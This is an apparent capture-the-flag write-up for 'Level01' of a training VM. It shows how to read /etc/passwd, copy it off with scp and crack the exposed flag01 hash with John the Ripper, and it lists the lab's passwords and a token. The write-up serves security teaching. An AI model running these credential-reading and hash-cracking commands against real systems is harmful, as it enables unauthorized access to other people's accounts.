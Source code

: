 # Level01 - Flag01

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                                                             |
| ------- | ----------------------------------------------------------- |
| level01 | `x24ti5gi3x0ol2eh4esiuxias`<br />which is the previous flag |
| flag01  | `abcdefg`                                                   |
| token   | `f2av5il02puano7naaf6adaaf`                                 |

## Steps to resolve

1. Display the file /etc/passwd

```bash
cat /etc/passwd | grep flag0[01]

> flag00:x:3000:3000::/home/flag/flag00:/bin/bash
> flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
     |         |       _|     |  |______   |________    |______
     |         |      |       |         |           |          |
  Username:Password:UserID:GroupID:UserID_Info:HomeDirectory:Shell
```

In the password section, an x character indicates that encrypted password is stored in /etc/shadow file.

The flag01 password is a plaintext encrypted password not stored in the shadow file. We can now decrypt it.

2. Use scp to copy the passwd file from remote to local

```bash
scp -P 4242 level01@<HOST>:/etc/passwd /tmp/passwd
```

3. Use john-the-ripper to decrypt the encrypted password

```bash
# considering john is already setup
john /tmp/passwd

# or with docker
docker run -it -v /tmp/passwd:/crackme.txt adamoss/john-the-ripper /crackme.txt
```

---

## Notes

### /etc/passwd and /etc/shadow

`/etc/passwd` is the file where the **user information** (like username, user ID, group ID, location of home directory, login shell, ...) is stored when a new user is created.

`/etc/shadow` is the file where **important information** (like an encrypted form of the password of a user, the day the password expires, whether or not the passwd has to be changed, the minimum and maximum time between password changes, ...) is stored when a new user is created.

Some interesting extra info: [passwd](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) and [shadow](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)

### John the ripper

John the Ripper is a free password cracking software tool. [...] It is among the most frequently used password testing and breaking programs as it combines a number of password crackers into one package, autodetects password hash types, and includes a customizable cracker. It can be run against various encrypted password formats including several crypt password hash types most commonly found on various Unix versions (based on DES, MD5, or Blowfish), Kerberos AFS, and Windows NT/2000/XP/2003 LM hash. Additional modules have extended its ability to include MD4-based password hashes and passwords stored in LDAP, MySQL, and others.

## Sources

### Shell

- [/etc/passwd explained](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
- [/etc/shadow explained](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)

### Cryptography

- [John the ripper - Wikipedia](https://en.wikipedia.org/wiki/John_the_Ripper)
- [John the ripper usage examples](https://www.openwall.com/john/doc/EXAMPLES.shtml)
